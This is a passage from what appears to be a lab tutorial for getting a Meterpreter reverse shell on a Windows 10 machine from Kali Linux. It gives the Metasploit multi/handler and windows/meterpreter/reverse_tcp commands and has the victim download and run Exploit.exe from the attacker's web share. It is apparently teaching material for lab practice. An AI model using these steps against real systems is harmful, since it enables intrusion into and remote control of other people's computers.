 `service apache2 start`

>Note that the system may ask you to input your machine's password in order to start the apache service.


## 3. Prepare The Exploit:

We'll start the Metasploit Framework by typing:

`msfconsole`


Select the multi/handler and set the payload to meterpreter/reverse_tcp:

`use exploit/multi/handler`

`set payload windows/meterpreter/reverse_tcp`

The above commands set up a listener for incoming connections from an exploited target and set the payload for the exploit module to "windows/meterpreter/reverse_tcp".


Set the LHOST to the Kali IP address:

`set LHOST 192.168.100.5`


Start the exploit in the background:

`exploit -j -z`


The exploit starts and runs in the background as well as the reverse TCP handler which keeps listening for any connections on port 4444 (default port unless specified using `set LPORT`).


## 4. Perform The Attack:


Up until now, all of the aforementioned activities were done on the Kali Linux machine. Now, we'll switch to the Windows 10 machine to download the malicious executable file (Exploit.exe).


On the Windows machine, launch any browser and type:

`http://192.168.100.5/share/` _(Change to the IP address of your Kali machine)._


Click on **Exploit.exe**, download the executable file, and double-click on it to run it.

If an Open File - Security Warning window appears, click Run.


Now switch back to the Kali linux machine terminal and you'll notice that a Meterpreter session has successfully opened.


## 5. Interacting With The Session:

Now that we have successfully established a connection with the target device, we'll need to interact with it.
To do that, type the following commands on your Kali terminal:
